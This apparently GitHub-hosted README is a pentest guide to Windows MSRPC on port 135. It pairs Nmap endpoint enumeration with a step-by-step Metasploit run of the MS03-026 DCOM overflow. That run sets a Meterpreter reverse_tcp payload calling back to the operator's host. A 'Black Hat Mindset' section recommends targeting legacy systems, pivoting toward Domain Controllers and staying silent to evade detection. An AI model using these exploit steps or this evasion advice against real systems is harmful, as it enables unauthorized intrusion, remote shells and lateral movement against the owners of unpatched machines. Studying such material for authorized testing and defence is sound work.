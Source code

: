 # Basic Methodology - Port 135 (MSRPC)

This README explores exploiting the Microsoft Remote Procedure Call (MSRPC) service on port 135, focusing on enumerating RPC endpoints with Nmap and exploiting a stack buffer overflow vulnerability (MS03-026) in the RPCSS service using Metasploit.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [Enumerating MSRPC Endpoints](#enumerating-msrpc-endpoints)
- [Exploiting MS03-026 with Metasploit](#exploiting-ms03-026-with-metasploit)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

MSRPC on port 135 is a critical service in Windows systems, used for remote procedure calls between clients and servers, often exposing vulnerabilities if unpatched. The MS03-026 vulnerability (CVE-2003-0352) is a stack buffer overflow in the RPCSS service, famously exploited by worms like Blaster. This guide covers enumerating RPC endpoints with Nmap and exploiting MS03-026 using Metasploit.

## Setup and Prerequisites

- **Environment**: Linux host with network access to the target Windows system.
- **Tools**: Install nmap (e.g., `apt install nmap`) and Metasploit Framework (e.g., `apt install metasploit-framework`).
- **IP Address**: Identify the target IP address (e.g., `<IP address>`).
- **Permissions**: No authentication is required for enumeration; exploitation depends on the target's patch level.

## Enumerating MSRPC Endpoints

Identify available RPC services and interfaces.

```bash
$ nmap <IP address> --script=msrpc-enum
```

Uses Nmap's msrpc-enum script to enumerate RPC endpoints on the target at `<IP address>`, revealing UUIDs, interfaces, and bindings (Linux).

Example Output:
```
PORT    STATE SERVICE
135/tcp open  msrpc
| msrpc-enum:
|   [135/TCP]
|     Interface UUID: 12345778-1234-abcd-ef00-0123456789ab
|     Interface Name: ISystemActivator
|     Binding: ncacn_ip_tcp:<IP address>[135]
```

### Usage Tip:

Combine with `--script-args=msrpc-enum.showuuids` to display more detailed UUID information.

## Exploiting MS03-026 with Metasploit

Exploit the stack buffer overflow in the RPCSS service (MS03-026).

```bash
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

Selects the Metasploit module for the MS03-026 exploit, targeting the DCOM interface via RPC (Linux).

### Steps:

```bash
msf > set RHOST <IP address>
msf > set PAYLOAD windows/meterpreter/reverse_tcp
msf > set LHOST <your IP>
msf > set LPORT 4444
msf > exploit
```

### Outcome:

If successful, you'll get a Meterpreter session on unpatched systems (e.g., Windows XP, Server 2003).

## Black Hat Mindset

- **Map RPC Services**: Use msrpc-enum to identify interfaces for targeted exploitation.
- **Exploit Unpatched Systems**: Target legacy systems (e.g., Windows XP) with MS03-026 for quick wins.
- **Escalate Privileges**: Leverage gained shells to pivot within the network, especially on Domain Controllers.
- **Stay Silent**: Minimize exploitation attempts to avoid detection by modern defenses.

## Resources

- MSRPC Overview
- MS03-026 Details
- Nmap NSE Documentation
- Metasploit Guide

